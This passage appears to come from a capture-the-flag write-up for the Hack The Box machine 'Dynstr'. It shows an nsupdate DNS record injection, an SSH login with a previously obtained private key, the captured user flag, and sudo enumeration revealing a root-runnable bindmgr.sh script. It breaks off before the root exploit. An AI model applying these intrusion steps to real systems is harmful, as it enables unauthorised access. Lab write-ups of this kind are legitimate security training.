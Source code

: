 > Note: Make sure to leave a blank line after each update so that a group of commands are sent as one dynamic update request to the server.

Once you update the name server, you can check the current message and send it to server and quit.

```
> show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; UPDATE SECTION:
11.14.10.10.in-addr.arpa. 18000 IN      PTR     test.infra.dyna.htb.

> send
> quit
```

Now we can login via SSH using private key which we acquired previously and read the user flag.

```
🔥\> ssh -i id_rsa bindmgr@dyna.htb
Last login: Tue Jun  8 19:19:17 2021 from 6146f0a384024b2d9898129ccfee3408.infra.dyna.htb

bindmgr@dynstr:~$ id
uid=1001(bindmgr) gid=1001(bindmgr) groups=1001(bindmgr)

bindmgr@dynstr:~$ cat user.txt
30f7d7e7e335a595a3b7d54a8e5e1b7e
```

# Privilege Escalation root

List sudo capability for current user.

```
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

We can run this  script as root without password. Let’s check the contents of that script.

```
bindmgr@dynstr:~$ cat /usr/local/bin/bindmgr.sh
#!/usr/bin/bash

# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr.
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr
```
